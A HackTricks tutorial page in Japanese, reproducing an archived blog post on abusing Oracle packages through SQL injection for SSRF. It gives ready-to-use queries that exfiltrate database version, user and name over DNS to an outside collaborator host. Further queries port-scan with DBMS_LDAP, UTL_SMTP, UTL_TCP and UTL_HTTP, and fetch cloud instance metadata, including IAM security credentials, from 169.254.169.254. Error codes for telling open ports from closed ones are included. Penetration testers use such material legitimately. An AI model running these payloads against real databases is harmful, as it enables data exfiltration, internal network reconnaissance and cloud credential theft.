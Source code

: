 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**この投稿は、[https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)から削除された投稿のWayback Machineコピーを提供します。**

## SSRF

Oracleを使用してOut of Band HTTPおよびDNSリクエストを行うことはよく文書化されていますが、これはSQLデータを抽出する手段としての注入においても同様です。これらの技術/関数を常に変更して、他のSSRF/XSPAを実行できます。

Oracleのインストールは非常に面倒な場合があります。特に、コマンドを試すために迅速なインスタンスをセットアップしたい場合はなおさらです。私の友人であり同僚の[Appsecco](https://appsecco.com)の[Abhisek Datta](https://github.com/abhisek)は、私に[https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c)を教えてくれました。これにより、t2.largeのAWS UbuntuマシンとDocker上にインスタンスをセットアップできました。

私は、`--network="host"`フラグを使用してdockerコマンドを実行し、Oracleをネイティブインストールとして完全なネットワークアクセスで模倣できるようにしました。このブログ投稿の期間中です。
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### URLまたはホスト名/ポート番号指定をサポートするOracleパッケージ <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

ホストとポートの指定をサポートするパッケージや関数を見つけるために、[Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html)でGoogle検索を行いました。具体的には、
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
検索は次の結果を返しました（すべてがアウトバウンドネットワークを実行するために使用できるわけではありません）

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

この粗い検索は明らかに、ホスト名とポート番号を渡すことを許可する`DBMS_LDAP`のようなパッケージをスキップしています。 [ドキュメントページ](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)は単に[別の場所](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)を指しています。したがって、私が見逃したかもしれないアウトバウンドリクエストを行うために悪用できる他のOracleパッケージがあるかもしれません。

いずれにせよ、私たちが発見し、上にリストしたパッケージのいくつかを見てみましょう。

**DBMS\_LDAP.INIT**

`DBMS_LDAP`パッケージは、LDAPサーバーからデータにアクセスすることを可能にします。 `init()`関数はLDAPサーバーとのセッションを初期化し、ホスト名とポート番号を引数として受け取ります。

この関数は、以下のようにDNSを介してデータの抽出を示すために以前に文書化されています。
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
しかし、この関数はホスト名とポート番号を引数として受け取るため、ポートスキャナーのように機能させることもできます。

いくつかの例を示します。
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
`ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` は、ポートが閉じていることを示しており、セッション値はポートが開いていることを指しています。

**UTL\_SMTP**

`UTL_SMTP` パッケージは、SMTPを介して電子メールを送信するために設計されています。[Oracleのドキュメントサイトに提供されている例では、このパッケージを使用してメールを送信する方法が示されています](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478)。しかし、私たちにとって興味深いのは、ホストとポートの指定を提供できる能力です。

粗い例は、タイムアウトが2秒の `UTL_SMTP.OPEN_CONNECTION` 関数で以下に示されています。
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout` はポートが開いているが、SMTP接続が確立されていないことを示し、`ORA-29278: SMTP transient error: 421 Service not available` はポートが閉じていることを示します。

**UTL\_TCP**

`UTL_TCP` パッケージとその手続きおよび関数は、[サービスとのTCP/IPベースの通信を可能にします](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)。特定のサービス用にプログラムされている場合、このパッケージはネットワークへの侵入や、TCP/IP接続のすべての側面を制御できるため、完全なサーバーサイドリクエストを実行する手段となることがあります。

[Oracleのドキュメントサイトの例では、このパッケージを使用して生のTCP接続を作成し、ウェブページを取得する方法が示されています](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)。これをもう少し簡略化して、メタデータインスタンスや任意のTCP/IPサービスにリクエストを送信するために使用できます。
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
興味深いことに、生のTCPリクエストを作成する能力により、このパッケージはすべてのクラウドプロバイダーのインスタンスメタデータサービスをクエリするためにも使用できます。メソッドタイプと追加ヘッダーはすべてTCPリクエスト内で渡すことができます。

**UTL\_HTTPとWebリクエスト**

おそらく、すべてのOut of Band Oracle SQL Injectionチュートリアルで最も一般的で広く文書化された技術は、[`UTL_HTTP`パッケージ](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070)です。このパッケージは、文書によって次のように定義されています - `UTL_HTTPパッケージは、SQLおよびPL/SQLからHypertext Transfer Protocol (HTTP) コールアウトを行います。これを使用して、HTTPを介してインターネット上のデータにアクセスできます。`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
あなたはさらに、次のようなクエリを使用して、基本的なポートスキャンを実行することもできます。
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` または `TNS:operation timed out` は、TCPポートが閉じていることを示すサインであり、`ORA-29263: HTTP protocol error` またはデータは、ポートが開いていることを示すサインです。

私が過去に使用した別のパッケージは、さまざまな成功を収めた [`HTTPURITYPE` Oracle抽象型の `GETCLOB()` メソッド](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) で、URLと対話し、HTTPプロトコルをサポートします。`GETCLOB()` メソッドは、URLからのGETレスポンスを [CLOBデータ型](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) として取得するために使用されます。[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**Telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
